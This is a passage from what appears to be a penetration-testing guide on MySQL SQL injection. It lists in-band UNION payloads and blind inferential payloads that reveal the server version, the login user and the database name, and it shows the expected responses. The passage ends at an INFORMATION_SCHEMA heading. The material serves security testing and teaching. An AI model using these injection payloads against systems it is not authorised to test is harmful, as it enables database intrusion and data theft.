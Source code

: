 ```sql
if(version >= 4.1.10)
   add 'and 1=0' to the query.
```

These are equivalent as the result is the same.

In band injection:

`1 AND 1=0 UNION SELECT @@version /*`

Inferential injection:

`1 AND @@version like '4.0%'`

The response would contain something to the lines of:

`5.0.22-log`

#### Login User

There are two kinds of users MySQL Server relies upon.

1. [USER()](https://dev.mysql.com/doc/refman/8.0/en/information-functions.html#function_user): the user connected to the MySQL Server.
2. [CURRENT_USER()](https://dev.mysql.com/doc/refman/8.0/en/information-functions.html#function_current-user): the internal user who is executing the query.

There is some difference between 1 and 2. The main one is that an anonymous user could connect (if allowed) with any name, but the MySQL internal user is an empty name (''). Another difference is that a stored procedure or a stored function are executed as the creator user, if not declared elsewhere. This can be known by using `CURRENT_USER`.

In band injection:

`1 AND 1=0 UNION SELECT USER()`

Inferential injection:

`1 AND USER() like 'root%'`

The response would contain something to the lines of:

`user@hostname`

#### Database Name in Use

There is the native function `DATABASE()`

In band injection:

`1 AND 1=0 UNION SELECT DATABASE()`

Inferential injection:

`1 AND DATABASE() like 'db%'`

> Expected Result, A string like this:
>
> `dbname`

#### INFORMATION_SCHEMA
